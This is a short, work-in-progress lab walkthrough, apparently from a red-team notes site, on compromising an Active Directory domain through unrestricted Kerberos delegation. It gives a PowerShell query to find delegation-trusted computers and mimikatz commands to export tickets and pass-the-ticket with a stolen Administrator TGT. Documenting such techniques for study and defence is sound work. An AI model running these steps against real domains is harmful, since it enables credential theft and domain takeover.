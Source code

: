 # Domain Compromise via Unrestricted Kerberos Delegation

{% hint style="warning" %}
WIP
{% endhint %}

![](../.gitbook/assets/screenshot-from-2018-10-29-23-01-49.png)

![](../.gitbook/assets/screenshot-from-2018-10-29-23-02-51.png)

Set IIS01 computer to unrestricted delegation:

![](../.gitbook/assets/screenshot-from-2018-10-29-22-50-27.png)

Finding computers on a domain that have unrestricted kerberos delegation property set:

```csharp
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-08-06.png)



![](../.gitbook/assets/screenshot-from-2018-10-29-23-35-01.png)



```text
Invoke-WebRequest http://iis01.offense.local -UseDefaultCredentials -UseBasicParsing
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-35-20.png)

```text
mimikatz # sekurlsa::tickets
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-40-27.png)



```text
mimikatz::tickets /export
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-56-20.png)

```text
mimikatz # kerberos::ptt C:\Users\Administrator\Desktop\mimikatz\[0;3c785]-2-0-40e10000-Administrator@krbtgt-OFFENSE.LOCAL.kirbi
```

![](../.gitbook/assets/screenshot-from-2018-10-29-23-49-58.png)

![](../.gitbook/assets/screenshot-from-2018-10-29-23-50-40.png)

![](../.gitbook/assets/screenshot-from-2018-10-29-23-59-12.png)

{% embed url="https://adsecurity.org/?p=1667" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

